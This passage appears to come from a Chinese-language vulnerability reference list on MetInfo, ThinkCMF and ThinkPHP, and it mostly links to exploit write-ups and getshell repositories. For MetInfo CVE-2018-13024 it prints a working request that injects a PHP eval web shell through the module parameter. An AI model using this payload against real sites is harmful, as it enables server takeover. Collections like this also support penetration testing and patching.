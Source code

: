 **CVE-2018-13024**
- 简介

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码.

- 影响版本
    - MetInfo 5.3.16
    - MetInfo 6.0.0

- 文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

---

## ThinkCMF

> 官网: https://www.thinkcmf.com/

**ThinkCMF 任意内容包含漏洞**
- POC | Payload | exp
    - [jas502n/ThinkCMF_getshell](https://github.com/jas502n/ThinkCMF_getshell)

---

## ThinkPHP

> 官网: http://www.thinkphp.cn/

### <5
**文章**
- [thinkphp一些版本的通杀漏洞payload](http://www.moonsec.com/post-853.html)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [Thinkphp2.1爆出重大安全漏洞](https://www.cnblogs.com/milantgh/p/3639178.html)
- [ThinkPHP3.2.3框架实现安全数据库操作分析](https://xz.aliyun.com/t/79)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP3.2 框架sql注入漏洞分析(2018-08-23)](https://xz.aliyun.com/t/2629)
- [ Thinkphp框架 3.2.x sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38901-1-12.html)

### 5
**文章**
- [ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用 (GetShell) ](https://www.vulnspy.com/cn-thinkphp-5.x-rce/)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)
- [ThinkPHP v5.1.22曝出SQL注入漏洞](https://nosec.org/home/detail/1821.html)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP 5.1.x SQL注入漏洞分析](https://www.freebuf.com/vuls/185420.html)
- [ThinkPHP框架 < 5.0.16 sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38284-1-13.html)
- [ThinkPHP 5.x 远程命令执行漏洞利用过程](https://laucyun.com/a9142c328b103cd86a3715bd5073c4be.html)
